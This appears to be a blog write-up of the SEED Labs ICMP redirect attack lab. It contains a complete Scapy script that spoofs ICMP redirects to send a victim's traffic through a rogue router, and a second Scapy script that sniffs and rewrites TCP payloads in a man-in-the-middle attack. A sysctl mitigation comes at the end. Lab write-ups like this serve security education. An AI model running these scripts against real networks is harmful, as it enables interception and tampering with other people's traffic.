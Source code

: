 ```yaml
---
layout: post
title: ICMP Redirect Attack
categories: [icmp, scapy]
---
```


An ICMP redirect is an error message sent by a router to the sender of an IP packet. The purpose of this error message is to inform the sender of the IP packet that there is a better route it can use to reach its destination. While this is a neat feature, attackers can take advantage of this feature to redirect a machine's network traffic to a rouge router and sniff such traffic.

Redirects are used when a router believes a packet is being routed incorrectly, and it would like to inform the sender that it should use a different router for the subsequent packets sent to that same destination. ICMP redirect can be used by attackers to change a victim’s routing table.

```
malicious router 10.9.0.111
attacker 10.9.0.105
victim 10.9.0.5
host-A 192.168.60.5
host-B 192.168.60.6
router 10.9.0.11, 192.168.60.11
```

<details>
<summary><b>SeedLabs: ICMP Redirect Attack Lab</b></summary>
<div markdown="1">

- [ICMP Redirect Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Files/ICMP_Redirect/ICMP_Redirect.pdf)

___
</div></details>


<br>

### Launching ICMP Redirect Attack
An ICMP redirect attack unlike the ARP cache poisoning directly attacks the routing table of the victim's machine. Though this attack does not change the routing table of the victim's machine, by informing the machine of a better route, the victim's machine creates a timed cache of the "supposed" better route.
This can be done through the code:

```python
#!/usr/bin/python3
import sys, os, time
from scapy.all import *

def main():
    # ensure correct usage
    if len(sys.argv) != 5:
        usage()
        sys.exit(2)
    
    # unpack
    router = sys.argv[1]
    victim = sys.argv[2]
    rouge_r = sys.argv[3]
    destination = sys.argv[4]
    
    # create packets
    ip = IP(src = router, dst = victim)
    icmp = ICMP(type = 5, code = 1, gw = rouge_r)
    ip2 = IP(src = victim, dst = destination)
    
    # send the packet
    try:
        while True:
            send(ip / icmp / ip2 / ICMP());
            time.sleep(1.5)
    except KeyboardInterrupt:
        sys.exit("Keyboard escaped")
        #os.system('clear')

def usage():
    print('Usage: ./icmp_redirect.py <router> <victim> <rouge-r> <destination>\
    \n\trouter: IP address of the actual router\
    \n\tvictim: IP address of the victim\
    \n\trouge-r: IP address of the rouge router\
    \n\tdestination: IP address of the host outside victim network\n')


if __name__ == '__main__':
    main()
```

It is important to note that if an entry exists in the routing cache, it trumps a similar entry in the actual routing table.

***Before running the ICMP redirect attack***

![1 1-route-before-redirect](https://github.com/iukadike/blog/assets/58455326/f2032eca-9667-4bb5-9984-e89a9d0389ff)

![1 1-mtr-before-redirect](https://github.com/iukadike/blog/assets/58455326/0f8c1826-c5eb-4cbc-ba0d-96852afca07a)

***After running the ICMP redirect attack***

![1 2-route-after-redirect](https://github.com/iukadike/blog/assets/58455326/abe25b52-8e7e-46eb-b927-c1d3b9db8164)

![1 2-mtr-after-redirect](https://github.com/iukadike/blog/assets/58455326/c6269890-f706-4cca-ba5d-6a5c4edc7bae)

The packet first goes to the rouge router. Once the malicious router receives the packet, it forwards it to the router; and thus is the return trip. This is because the malicious router has an entry for the router in its routing table as seen below

***rouge router table***

![1 2-rouge-router-table](https://github.com/iukadike/blog/assets/58455326/d6b7f2c3-997a-4d9b-992a-34455ea7b843)

![rouge-router-table](https://github.com/iukadike/blog/assets/58455326/9a190864-96e0-4ff5-8c87-a8332dbb194a)

When a ping request is sent from the victim to `host-A`, two ping requests and one ping reply make up the traffic. This can be seen in Wireshark when monitoring the victim's network
- first ICMP request is from the victim to the malicious router
- second ICMP request is from the malicious router to the router
- only ICMP reply is from router to the victim

***wireshark packet trace****

![1 4-wireshark-2](https://github.com/iukadike/blog/assets/58455326/d959b7e8-a6cc-42ee-a7bb-411263e5e3d5)

<br>

### ICMP redirect attacks to redirect to a remote machine
When the gateway you want the victim to redirect traffic to is outside of the victim's network, the victim would ignore the gateway address but rather use the router address. When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

***route to remote machine***

![1 3-route-remote](https://github.com/iukadike/blog/assets/58455326/7dab4549-0fe5-457c-9c04-3ba8bcf8ae41)

![1 3-mtr-remote](https://github.com/iukadike/blog/assets/58455326/42812d76-9c73-4e49-83bc-1a9942bef003)

<br>

### ICMP redirect attacks to redirect to a non-existing machine on the same network
When the gateway you want the victim to redirect traffic to is on the same network as the victim but either offline or non-existent, the victim would ignore the gateway address but rather use the router address. As with the remote host, When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

***route to non-existent machine***

![1 3-route-remote](https://github.com/iukadike/blog/assets/58455326/7dab4549-0fe5-457c-9c04-3ba8bcf8ae41)

![1 3-mtr-remote](https://github.com/iukadike/blog/assets/58455326/42812d76-9c73-4e49-83bc-1a9942bef003)

<br>

##### side note
```
net.ipv4.conf.all.send_redirects
net.ipv4.conf.default.send_redirects
net.ipv4.conf.eth0.send_redirects
```

When these are set to 1, the malicious router forwards a message to the victim to indicate the next hop. In essence, what this does is that it informs the victim that there is a better route to get to `host-A`. The victim takes note of this and updates its routing cache accordingly.

![1 4-next-hop](https://github.com/iukadike/blog/assets/58455326/bf4c5528-cc69-454b-8569-4588c680a84c)

However, when these are set to 0, the malicious router does not forward a message to the victim to indicate the next hop. This is the option we want.

![1 4-next-hop-2](https://github.com/iukadike/blog/assets/58455326/c9c768f9-ebd6-4121-98ef-3e2abb7e21a2)

<br>

### Launching the MITM Attack
You only need to capture traffic that comes to the rouge router. When the destination is sending traffic to the victim, it will do so via the real router. It is only when the traffic originates from the victim that it goes to the rouge router. This is true because the attacking machine uses the router to send the spoof traffic.

A simple MITM Attack can be launched using the below code

```python
#!/usr/bin/env python3
import re
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)

    if pkt[TCP].payload:
        # Decode payload
        data = pkt[TCP].payload.load.decode().lower()

        # Replace the pattern
        newdata = re.sub('ifeanyi', 'AAAAAAA', data, 1)
        
        # Send the packet wit the new data
        print(f'sending {newdata}')
        send(newpkt/newdata, verbose = 0)
    else: 
        send(newpkt, verbose = 0)

f = '(tcp port 9090) && (not ether src 02:42:22:32:2c:98)'
sniff(iface='br-5b598e26fa5c', filter=f, prn=spoof_pkt)
```

This can be better understood by the screenshots below

***MITM program***

![1 5-mitm-code](https://github.com/iukadike/blog/assets/58455326/84483232-cab3-4091-9b2f-39f483c88141)

***Server `host-A`***

![1 5-mitm-server](https://github.com/iukadike/blog/assets/58455326/3a0fe78b-40da-49bb-bc9b-651262f4e3e7)

***Victim***

![1 5-mitm-victim](https://github.com/iukadike/blog/assets/58455326/53863bb4-b58f-4408-b01b-2ad8a8489c76)

___
##### mitigation
By setting the following to 0, you can effectively prevent your machine from accepting `ICMP redirects`
```
net.ipv4.conf.all.accept_redirects
net.ipv4.conf.default.accept_redirects
net.ipv4.conf.eth0.accept_redirects
````

<br>

Thanks for reading...
